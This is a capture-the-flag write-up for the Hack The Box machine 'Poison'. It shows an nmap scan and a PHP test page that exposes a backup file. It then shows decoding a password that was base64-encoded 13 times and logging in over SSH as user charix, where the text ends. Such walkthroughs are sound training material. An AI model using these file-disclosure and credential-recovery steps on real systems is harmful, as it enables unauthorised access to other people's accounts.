 ```yaml
---
layout: writeup
category: HTB
date: 2024-12-29
comments: false
tags: freebsd php base64 logpoisoning remotecodeexecution localfileinclusion rce lfi 
---
```


<br />

![1](../../../assets/images/Poison/1.png)

<br />

OS -> FreeBSD.

Difficulty -> Medium.

<br />

# Introduction:

<br />



<br />

# Enumeration:

<br />

We begin with a standard `nmap` scan to identify open ports and running services:

<br />

```bash
❯ nmap -p- 10.10.10.84  --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-06 20:29 CEST
Nmap scan report for 10.10.10.84
Host is up (0.042s latency).
Not shown: 60743 filtered tcp ports (no-response), 4790 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.36 seconds
```

<br />

Open Ports:

`Port 22` -> SSH 

`Port 80` -> HTTP 

<br />

# HTTP Enumeration: - Port 80

<br />

We start listing the http website:

<br />

![2](../../../assets/images/Poison/2.png)

<br />

Apparently, there is a temporal page to test `.php` tools.

<br />

### listfiles.php

<br />

If we visit the path of this tool (`/listfiles.php`), we will find a list of filenames:

<br />

![3](../../../assets/images/Poison/3.png)

<br />

There is one named `"pwdbackup.txt"` that seems to be interesting.

If we enter this file in the `Scriptname` field of the main page we find something:

<br />

![4](../../../assets/images/Poison/4.png)

<br />

## Shell Access 1 - Via Base64 Password Decyrpt

<br />

A `password` that have been `base64-encode` multiple times, concretely 13.

We can easily decrypt this password with a bash one-liner.

To do it, first, we need to put the base64 content into a file:

<br />

```bash
❯ /usr/bin/cat encoded_text
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

<br />

Then, we can decode it with the following bash one-liner:

<br />

```bash
❯ file="$(cat encoded_text)"; for i in $(seq 1 13); do file="$(echo "$file" | base64 -d)"; done; echo $file
Charix!2#4%6&8(0
```

<br />

We have a new password: `Charix!2#4%6&8(0`

Using it, we can connect via SSH to the victime machine as the user `charix`:

<br />

```bash
❯ ssh charix@10.10.10.84
(charix@10.10.10.84) Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017
...[snip]...
	http://www.freshports.org/
csh: The terminal database could not be opened.
csh: using dumb terminal settings.
charix@Poison:~ % id    
uid=1001(charix) gid=1001(charix) groups=1001(charix)
```

<br />


